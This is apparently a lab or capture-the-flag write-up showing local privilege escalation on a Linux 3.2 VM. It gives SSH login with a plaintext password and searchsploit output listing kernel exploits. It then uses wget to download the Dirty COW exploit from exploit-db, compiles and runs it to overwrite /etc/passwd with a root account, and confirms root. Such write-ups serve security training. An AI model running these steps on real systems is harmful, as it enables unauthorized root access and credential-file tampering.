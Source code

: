 # Writeup2

The first step it to use the credentials of laurie which we got in writeup1.md.

ssh laurie@172.16.129.137
password : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Then we check the version of the linux kernel with :

```
uname -r
```

output : 3.2.0-91-generic-pae

Kernel version is 3.2.

Using searchsploit on the host machine, we check the possible vulnerabilites of the 3.2 version.


```
searchsploit linux kernel 3.2.0-91
```

output :

------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                                                                               | solaris/local/15962.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                      | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                         | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                            | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                      | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                             | linux/local/40611.c
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation (1)                                                                    | linux/local/18411.c
Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2)                                                                                    | linux/local/35161.c
Linux Kernel 3.0 < 3.3.5 - 'CLONE_NEWUSER|CLONE_FS' Local Privilege Escalation                                                                                          | linux/local/38390.c
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation                                                                          | linux_x86-64/local/33516.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                                                                                    | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                                                              | linux/local/41886.c
Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation                                                                                                       | linux/local/34923.c
Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation                                                                                            | linux_x86-64/local/44302.c
Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation                                                                                               | arm/local/31574.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation                                                                       | linux_x86-64/local/44299.c
Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2)                                                                                      | linux_x86-64/local/26131.c
Linux Kernel < 3.8.x - open-time Capability 'file_ns_capable()' Local Privilege Escalation                                                                              | linux/local/25450.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service                                                                                            | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                                                                                            | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                                                                                       | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                                                                                                                 | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                                           | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                                                                                                       | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                                                                                                | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                                                                                                    | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                                                                                                          | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                                                                  | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                                                       | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                                                   | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)                                               | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                                                                                                                 | linux/dos/44301.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

We chose the Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) exploit.

searchsploit is a tool used to find exploits available on https://www.exploit-db.com, the output Name is the same as the one on the website.

We filter by name and find it : https://www.exploit-db.com/exploits/40839

Let's copy the content of the code inside a new C programming file, diry_cow.c :

```
wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty_cow.c
```

Comments inside dirty_cow.c explain how to compile and run the binary :

Compile with:
```
 gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```
  ./dirty or ./dirty my-new-password
```

Doing as instructed :

```
./dirty
```

output :
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

Let's use the character 'q' as new password.

output :

Complete line:
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000


Terminating the program with ^C, we identify as the new user and provide the newly created password :

```
su firefart
```
password : q

We see we changed user :
firefart@BornToSecHackMe:/home/laurie#

```
whoami
```
output:
firefart

Let's confirm we have escalated to root and succeeded :

```
id
```
output:
uid=0(firefart) gid=0(root) groups=0(root)

